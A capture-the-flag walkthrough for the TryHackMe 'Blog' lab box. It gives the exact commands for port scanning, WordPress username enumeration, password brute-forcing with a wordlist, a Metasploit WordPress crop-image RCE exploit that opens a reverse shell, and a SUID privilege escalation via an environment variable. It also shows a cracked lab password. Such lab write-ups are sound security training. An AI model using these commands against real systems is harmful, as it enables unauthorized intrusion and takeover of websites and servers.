






# Writeup, Walkthrough
https://tryhackme.com/room/blog

For this box we must add the IP to /etc/hosts

```echo '10.10.159.232 blog.thm' >> /etc/hosts```


## Enumeration

- Run a nmap scan to see what ports are open and what services are running.

    - ```nmap -sC -sV -oN nmap.txt 10.10.159.232```
    - Open Ports
        - 22 SSH - OpenSSH 7.6p1
        - 80 HTTP - Apache/2.4.29
        - 139 netbios-ssn - Samba smbd 3.X - 4.X
        - 445 netbios-ssn - Samba smbd 4.7.6
        - 

- The webpage is running Wordpress, robots.txt leads me to the admin page. 
    - /wp-admin, and ,/wp-admin/admin-ajax.php
    - The default WP credentials does not work but it tells me that the username is invalid.
        - 

    - I can use wpscan to enumerate further.
    - wpscan can enumerate WordPress usernames
        - ```
            wpscan --url http://10.10.159.232 --enumerate u
            ```
    - wpscan found 2 username, kwheel and bjoel. bjoel seems to be the admin of the webpage.
        - 

    - Lets try to brute force the login with wpscan using the known usernames.
        ```
        wpscan --url http://10.10.159.232 --passwords /usr/share/wordlists/rockyou.txt --usernames bjoel,kwheel
        ```
    - Moments later wpscan found password for khweel:cutiepie1 and still going for bjoel.

- After some googling it seems like WP 5.0 is vulnerable to CVE 2019-8943 and CVE 2019-8942 and there is a msf exploit. 
    - https://www.exploit-db.com/exploits/46662

- Lets fire up msfconsole
    - exploit = exploit/multi/http/wp_crop_rce
    - set RHOSTS 10.10.159.232 
    - set RPORT 80
    - set USERNAME kwheel
    - set PASSWORD cutiepie1
    - set LHOST 10.9.5.82 (local IP)
    - run or exploit
- msfconsole will open a shell. Type shell to open a bash shell.

    - 
    - to upgrade the shell
        - ```
            python -c 'import pty; pty.spawn("/bin/bash")'
            ```
- There is a user.txt file inside /home/bjoel but it doesnt contain the flag.
- The hint suggests it's in /media/usb/user.txt but Permission denied.
- Let us get root


## Privilege Escalation


- Finding SUID binaries
    - ```
        find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
        ```

- While checking for binaries with SUID, /usr/sbin/checker looks interesting.

- When I try to run checker it says "Not an admin"
- lets run ltrace to dig into checker.
    - ltrace shown the admin env is set to null, maybe that's why it says "not an admin"
    - 
    - Lets make admin env = True 
    - export admin=1 (will make admin True)
    - running ltrace /usr/sbin/checker confirms admin=1
- /usr/sbin/checker gives us root

- 
- Now we can cat root.txt and /media/usb/user.txt


### bada bing bada boom .... We have rooted Blog


